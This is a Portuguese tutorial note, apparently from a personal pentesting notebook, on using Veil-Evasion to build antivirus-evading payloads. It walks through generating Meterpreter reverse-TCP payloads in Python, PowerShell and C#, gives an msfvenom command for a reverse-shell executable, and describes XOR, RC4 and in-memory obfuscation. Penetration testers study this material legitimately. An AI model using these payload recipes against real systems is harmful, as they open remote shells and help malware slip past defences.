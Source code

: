 ```yaml
---
folder: "[[Tools]]"
---
```

O Veil-Evasion é uma ferramenta poderosa para ofuscação e criação de payloads que contornam softwares de antivírus em ambientes de testes de penetração. Ele faz parte da suíte Veil Framework, que contém outras ferramentas para pós-exploração, mas Veil-Evasion foca na criação de executáveis que evitam a detecção por soluções de segurança.

### Introdução Básica ao Veil-Evasion

1. **Objetivo**: O Veil-Evasion visa gerar payloads ofuscados, principalmente scripts de shellcode e executáveis, que conseguem evitar a detecção de antivírus comuns.
2. **Linguagens Suportadas**: Ele permite criar payloads usando várias linguagens como Python, C#, PowerShell, entre outras.
3. **Arquitetura**: A arquitetura do Veil-Evasion é modular, permitindo escolher diferentes métodos de codificação, compiladores e linguagens de implementação. Isso aumenta a versatilidade na criação de payloads personalizados.

### Instalação

No Kali Linux, o Veil-Evasion pode ser instalado com os seguintes comandos:

```bash
sudo apt update
sudo apt install veil
```

Para garantir que o Veil está atualizado, use o comando:

```bash
veil --update
```

Ou, se necessário, faça o clone diretamente do repositório oficial:

```bash
git clone https://github.com/Veil-Framework/Veil.git
cd Veil
./setup.sh
```

### Estrutura Básica do Veil-Evasion

Quando o Veil-Evasion é iniciado, ele exibe uma interface de linha de comando onde você pode selecionar o tipo de payload desejado e a linguagem de codificação. Por exemplo:

```bash
sudo veil
```

Em seguida, selecione `Evasion` para iniciar a criação de um payload. A interface oferece opções para escolher o tipo de payload, a linguagem de implementação, e outras configurações que impactam na evasão dos antivírus.

### Criação de um Payload com Veil-Evasion

#### Exemplo Básico: Payload em Python

1. No menu do Veil-Evasion, selecione a opção `Evasion`.
2. Escolha um payload em Python (por exemplo, `python/meterpreter/rev_tcp`).
3. Configure o endereço IP e a porta para a conexão reversa:

   ```bash
   set LHOST=seu_ip
   set LPORT=sua_porta
   ```

4. Gera o payload com o comando:

   ```bash
   generate
   ```

Este processo cria um executável que pode ser transferido para o sistema alvo e executado para obter uma sessão de Meterpreter, contornando a detecção do antivírus na maioria das vezes.

### Codificação e Ofuscação Avançada

A ofuscação é uma das principais funcionalidades do Veil-Evasion. É possível selecionar diferentes técnicas de ofuscação para dificultar a detecção. O Veil oferece opções como:

- **Encoding em XOR**: Codifica o payload em XOR, dificultando a análise estática.
- **Compressão e Criptografia**: O payload pode ser comprimido ou criptografado usando técnicas como Base64 e RC4.
- **Execução sob Shellcode**: Permite que o shellcode seja executado diretamente na memória, sem precisar escrever no disco, dificultando a detecção por parte de antivírus baseados em assinaturas.

### Exemplos Avançados

1. **Criação de Payload PowerShell**: O PowerShell é eficaz em ambientes Windows, e o Veil-Evasion permite criar payloads PowerShell que podem ser executados diretamente da linha de comando.

   ```bash
   use powershell/meterpreter/rev_tcp
   set LHOST=seu_ip
   set LPORT=sua_porta
   generate
   ```

2. **Payload C# para Contornar Antivírus em Ambiente Corporativo**:
   Utilizando C#, é possível criar executáveis complexos que utilizam APIs nativas do Windows, tornando mais difícil para os antivírus detectarem a execução do código malicioso.

   ```bash
   use cs/meterpreter/rev_tcp
   set LHOST=seu_ip
   set LPORT=sua_porta
   generate
   ```

### Estratégias de Teste e Melhorias de Evasão

- **Testes com Diferentes Codificações**: Experimente diversas técnicas de codificação, como XOR e Base64, para determinar qual combinação obtém melhores resultados de evasão.
- **Mistura de Linguagens**: Combine diferentes linguagens de payload para criar camadas adicionais de ofuscação e evitar a detecção.
- **Varredura com Antivírus Antes de Testar no Alvo**: Utilize uma sandbox para verificar quais soluções de antivírus detectam o payload antes de tentar em um alvo real.

### Integração com Metasploit e Outros Frameworks

O Veil-Evasion pode ser integrado ao Metasploit Framework para automatizar a criação e o uso de payloads. Isso permite um fluxo contínuo de exploração, onde o Veil-Evasion é utilizado para a criação do payload e o Metasploit para a entrega e pós-exploração.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=seu_ip LPORT=sua_porta -f exe > payload.exe
```

Após o payload ser gerado, o Veil-Evasion pode ofuscá-lo para reduzir as chances de detecção.

### Considerações Finais

O Veil-Evasion é uma ferramenta valiosa em testes de penetração avançados, especialmente em ambientes onde a evasão de antivírus é crítica. Contudo, com o avanço de técnicas de detecção, é importante que o tester esteja sempre atualizado com novas técnicas e constantemente teste a eficácia dos payloads em diferentes cenários.